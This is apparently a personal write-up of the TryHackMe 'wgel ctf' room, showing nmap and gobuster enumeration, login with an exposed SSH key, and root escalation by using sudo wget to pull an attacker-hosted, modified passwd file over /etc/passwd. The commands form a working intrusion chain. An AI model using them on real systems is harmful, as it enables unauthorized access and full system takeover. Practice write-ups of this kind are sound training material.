

<div align = "center">
Sep 25, 2021, Saturday<br>
Notes by: Mayank Kumar Prajapati<br>
Machine Name: wgel ctf<br>
URL: https://tryhackme.com/room/wgelctf
</div>

`export IP="10.10.191.127"`

## Nmap Scan:
``` bash
└─# nmap -sC -sV -T4 $IP   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-25 07:23 EDT
Stats: 0:00:30 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 07:24 (0:00:07 remaining)
Stats: 0:00:37 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 07:24 (0:00:14 remaining)
Nmap scan report for 10.10.191.127
Host is up (0.37s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.89 seconds
```
## Task 1
1. User flag.
```
***
```
**Viewing Source code of Apache default page:**


**Directory  Bursting**<br>
``` bash
└─# gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.191.127/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/25 07:40:35 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 11374]
/server-status        (Status: 403) [Size: 278]  
/sitemap              (Status: 301) [Size: 316] [--> http://10.10.191.127/sitemap/]

``` 
``` bash
└─# gobuster dir -u http://$IP/sitemap/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.191.127/sitemap/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/25 07:42:40 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.ssh                 (Status: 301) [Size: 321] [--> http://10.10.191.127/sitemap/.ssh/]

```

Tried each and every directory listed above, nothing seems to be working, most of them are not accessible.
Finally found private key in `.ssh` directory. We already found from the comment inside source code of `apache page`.
``` bash
└─# chmod 600 jessie_id_rsa
└─# ssh -i jessie_id_rsa jessie@$IP
The authenticity of host '10.10.191.127 (10.10.191.127)' can't be established.
ECDSA key fingerprint is SHA256:9XK3sKxz9xdPKOayx6kqd2PbTDDfGxj9K9aed2YtF0A.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.191.127' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ find | grep flag
./Documents/user_flag.txt

```
Now you can find root flag easily.


2. Root flag.
```
***
```
Lets transfer linpeas for finding path to privilege escalation. It can be done via secure copy (SCP) or also using a python simple HTTP server. <br>
Lets try to use `scp` this time as port 22 is open.<br>
**Note*** Inside linux based OS temporary files stored under `/dev/shm` directory. Most of the time this directory is writable and it is advisable there is a requirement of transferring malicious files into the system then store those files inside this directory to avoid `Write Permission Denied` issue.
```bash
└─# scp -i jessie_id_rsa /root/Desktop/transfer/linpeas.sh jessie@10.10.235.91:/dev/shm
linpeas.sh                                                                                                                                                100%  462KB 358.4KB/s   00:01    
 
```
Now navigate to `/dev/shm` directory in the ssh session that we have already taken of this machine and try to execute `linpeas.sh` to find escalatuion path.
```bash
User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
Lets try [GTFObins](https://gtfobins.github.io/gtfobins/wget/#sudo) to find out escalation path using wget. As we have download permission using `wget` sudo privileges. We will try to download `passwd` file whose root password we will manage and we will replace the original `passwd` file in victim's system by our modified file.
```python3
└─# python3                                                                                                                                                                               1 ⨯
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import crypt
>>> crypt.crypt("simplepass")
'$6$Wa5vl9Sqloa8cOCW$nkI75.Pc6U0UlcVG/cmNrLxBELrVgXLcuqpCImJf2OzJ.Z/pId6RfOV7xqWDbAzoIle6.Ri8XJXWteLfo2sqC.'
>>>
```
Let's copy paste this string in place of x inside passwd file which is currently on our local system.
```bash
┌──(root💀kali)-[~/Desktop/transfer]
└─# ls     
linpeas.sh  passwd  pentestmonkey.php
                                                                 
┌──(root💀kali)-[~/Desktop/transfer]
└─# python -m SimpleHTTPServer 8080
```
On victim's system execute the following.
```bash
jessie@CorpOne:/dev/shm$ cp /etc/passwd ./passwd.bak
jessie@CorpOne:/dev/shm$ ls
linpeas.sh  passwd.bak  pulse-shm-1285657475  pulse-shm-1665596888  pulse-shm-2287659282  pulse-shm-2914594193  pulse-shm-465583087
jessie@CorpOne:/dev/shm$ sudo wget http://10.9.155.203:8080/passwd -O /etc/passwd
--2021-09-27 09:04:46--  http://10.9.155.203:8080/passwd
Connecting to 10.9.155.203:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2397 (2,3K) [application/octet-stream]
Saving to: ‘/etc/passwd’

/etc/passwd                                     100%[=====================================================================================================>]   2,34K  --.-KB/s    in 0s      

2021-09-27 09:04:46 (5,39 MB/s) - ‘/etc/passwd’ saved [2397/2397]
```
Now switch to root with password 'simplepass'.
```bash
jessie@CorpOne:/dev/shm$ su - root
Password: 
root@CorpOne:~# 
```

